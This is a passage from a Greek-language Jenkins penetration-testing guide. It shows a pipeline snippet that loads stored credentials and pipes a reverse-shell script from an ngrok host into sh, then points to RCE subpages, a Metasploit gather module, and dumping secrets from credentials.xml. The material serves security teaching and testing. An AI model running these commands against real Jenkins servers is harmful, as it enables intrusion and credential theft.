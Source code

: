 ```bash
steps {
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
'''
}
}
}

post {
always {
cleanWs()
}
}
}
```
## Αυθαίρετη Ανάγνωση Αρχείων σε RCE

{% content-ref url="jenkins-arbitrary-file-read-to-rce-via-remember-me.md" %}
[jenkins-arbitrary-file-read-to-rce-via-remember-me.md](jenkins-arbitrary-file-read-to-rce-via-remember-me.md)
{% endcontent-ref %}

## RCE

{% content-ref url="jenkins-rce-with-groovy-script.md" %}
[jenkins-rce-with-groovy-script.md](jenkins-rce-with-groovy-script.md)
{% endcontent-ref %}

{% content-ref url="jenkins-rce-creating-modifying-project.md" %}
[jenkins-rce-creating-modifying-project.md](jenkins-rce-creating-modifying-project.md)
{% endcontent-ref %}

{% content-ref url="jenkins-rce-creating-modifying-pipeline.md" %}
[jenkins-rce-creating-modifying-pipeline.md](jenkins-rce-creating-modifying-pipeline.md)
{% endcontent-ref %}

## Μετά την Εκμετάλλευση

### Metasploit
```
msf> post/multi/gather/jenkins_gather
```
### Jenkins Secrets

Μπορείτε να καταγράψετε τα μυστικά προσβάλλοντας το `/credentials/` αν έχετε αρκετές άδειες. Σημειώστε ότι αυτό θα καταγράψει μόνο τα μυστικά μέσα στο αρχείο `credentials.xml`, αλλά **τα αρχεία διαμόρφωσης κατασκευής** μπορεί επίσης να έχουν **περισσότερα διαπιστευτήρια**.
